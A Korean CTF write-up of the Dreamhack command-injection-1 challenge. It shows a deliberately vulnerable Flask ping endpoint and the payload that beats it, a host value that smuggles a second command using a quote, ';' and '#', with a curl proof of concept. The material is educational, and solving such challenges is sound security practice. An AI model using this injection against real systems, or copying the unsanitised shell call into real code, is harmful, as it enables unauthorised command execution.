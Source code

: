 ```yaml
---
title: "[CTF] 드림핵 command-injection-1"
date: 2025-09-18 19:00:00 +0900
categories: [CTF, Web]
tags: [CTF, command-injection]
description: "드림핵 command-injection-1"
author: "송지민"
toc: true
---
```


## 문제 개요
웹앱이 사용자 입력 값 `host`를 받아 쉘에서 `ping -c 3 "{host}"` 명령을 실행한다. 입력값을 따옴표로 감싸서 사용하지만, 서버 측에서 추가적인 필터링이 없어 따옴표/세미콜론을 이용한 커맨드 인젝션이 가능하다.

문제 코드:

```python
#!/usr/bin/env python3
import subprocess

from flask import Flask, request, render_template, redirect

from flag import FLAG

APP = Flask(__name__)


@APP.route('/')
def index():
    return render_template('index.html')


@APP.route('/ping', methods=['GET', 'POST'])
def ping():
    if request.method == 'POST':
        host = request.form.get('host')
        cmd = f'ping -c 3 "{host}"'
        try:
            output = subprocess.check_output(['/bin/sh', '-c', cmd], timeout=5)
            return render_template('ping_result.html', data=output.decode('utf-8'))
        except subprocess.TimeoutExpired:
            return render_template('ping_result.html', data='Timeout !')
        except subprocess.CalledProcessError:
            return render_template('ping_result.html', data=f'an error occurred while executing the command. -> {cmd}')

    return render_template('ping.html')


if __name__ == '__main__':
    APP.run(host='0.0.0.0', port=8000)
```

## 내가 실제로 푼 방법
폼의 `host` 입력값이 클라이언트 측 `pattern`으로 제한되어 있었지만, 개발자도구로 해당 필드를 지우거나 직접 POST 요청을 보내면 우회 가능했다. 서버는 입력을 따옴표로 감싸서 실행하지만, 쉘에서 세미콜론(`;`)으로 명령 연결과 `#`으로 주석을 만들어 주입할 수 있다.

### 내가 사용한 페이로드
```
8.8.8.8" ; flag.py #
```

설명:
- 서버에서 실행되는 명령은 `ping -c 3 "8.8.8.8" ; flag.py #"`
- `;`로 이어진 `flag.py` 명령이 실행되고 `#` 이후는 주석 처리되어 남은 따옴표 문제가 무시된다.
- 개발자 도구로 input `pattern` 제거 후 폼 제출하거나 curl로 직접 POST하면 된다.

### PoC
```bash
curl -X POST -F 'host=8.8.8.8" ; python3 flag.py #' http://TARGET:8000/ping
```

설명:
- 클라이언트 측 검사만 있고 서버 측에서 입력을 안전하게 처리하지 않으면 이런 방식으로 임의 명령을 실행할 수 있다.
- 내가 폼에 위 값을 넣고 제출하니 flag.py가 실행되어 FLAG를 화면에 출력했다.

## 재현 흐름
1. 개발자도구로 input `pattern` 제거(또는 curl 사용)  
2. POST /ping with host=`8.8.8.8" ; python3 flag.py #`  
3. 서버가 쉘로 명령을 실행 → flag 내용이 결과에 포함  
4. 화면에서 FLAG 확인

---
